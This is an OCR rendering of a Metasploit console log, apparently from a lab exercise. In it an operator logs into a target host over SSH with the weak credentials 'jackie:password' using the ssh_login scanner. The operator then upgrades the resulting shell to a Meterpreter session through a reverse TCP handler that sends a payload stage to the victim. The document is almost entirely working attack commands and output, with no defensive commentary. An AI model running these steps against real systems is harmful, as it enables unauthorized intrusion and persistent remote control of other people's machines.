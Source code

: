 ```

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_login                          normal  No     SSH Login Check Scanner
   1  auxiliary/scanner/ssh/ssh_login_pubkey                   normal  No     SSH Public Key Login Scanner


msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME jackie
USERNAME => jackie
msf5 auxiliary(scanner/ssh/ssh_login) > set PASSWORD password
PASSWORD => password
msf5 auxiliary(scanner/ssh/ssh_login) > exploit

[+] 192.58.78.3:22 - Success: 'jackie:password' ''
[*] Command shell session 1 opened (192.58.78.2:41271 -> 192.58.78.3:22) at 2023-03-24 09:11:26 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information                           Connection
  --  ----  ----           -----------                           ----------
  1         shell unknown  SSH jackie:password (192.58.78.3:22)  192.58.78.2:41271 -> 192.58.78.3:22 (192.58.78.3)

msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.58.78.2:4433 [*] Sending stage (980808 bytes) to 192.58.78.3
[*] Meterpreter session 2 opened (192.58.78.2:4433 -> 192.58.78.3:48022) at 2023-03-24 09:13:16 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                                  Connection
  --  ----  ----                   -----------                                                                  ----------
  1         shell unknown          SSH jackie:password (192.58.78.3:22)                                         192.58.78.2:41271 -> 192.58.78.3:22 (192.58.
78.3)
  2         meterpreter x86/linux  no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.58.78.3  192.58.78.2:4433 -> 192.58.78.3:48022 (192.5
8.78.3)
```
